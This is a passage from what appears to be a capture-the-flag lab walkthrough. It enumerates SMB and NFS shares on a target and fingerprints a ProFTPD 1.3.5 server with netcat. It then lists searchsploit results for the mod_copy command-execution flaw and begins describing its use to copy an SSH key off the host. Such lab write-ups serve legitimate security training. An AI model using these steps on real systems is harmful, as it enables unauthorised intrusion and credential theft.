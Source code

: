 ```
  .                                   D        0  Wed Sep  4 03:49:09 2019
  ..                                  D        0  Wed Sep  4 03:56:07 2019
  log.txt                             N    12237  Wed Sep  4 03:49:09 2019
```

##### Download files in share recursively (all files)

Download all the files in the share: `smbget -R smb://<Target_IP_Address>/anonymous`

##### Enumerate Network File System in Port 111 rpcbind

`nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <Target_IP_Address>` :

```
PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount:
|_  /var *
```

### Task 3 - Gain initial access with ProFtpd

"ProFtpd is a free and open-source FTP server, compatible with Unix and Windows systems. Its also been vulnerable in the past software versions."

##### Connect with netcat to grab banner for version number

`nc <Target_IP_Address> 21`:

```
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.92.4]
```

##### Search for an exploit

Now we need to search for an exploit for this version of ProFTPD 1.3.5. They recommend searchsploit. `searchsploit proftpd 1.3.5`:

```
---------------------------------------------------------- ---------------------------------
 Exploit Title                                            |  Path
---------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit) | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution       | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)   | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                 | linux/remote/36742.txt
---------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

There are **4** in the output of our search.

##### Leverage the vulnerability

We can see if we can just leverage the commands directly in the open netcat session from before and move the ssh key from the location given in the log.txt file that we downloaded from the share earlier. `nc <Target_IP_Address> 21`
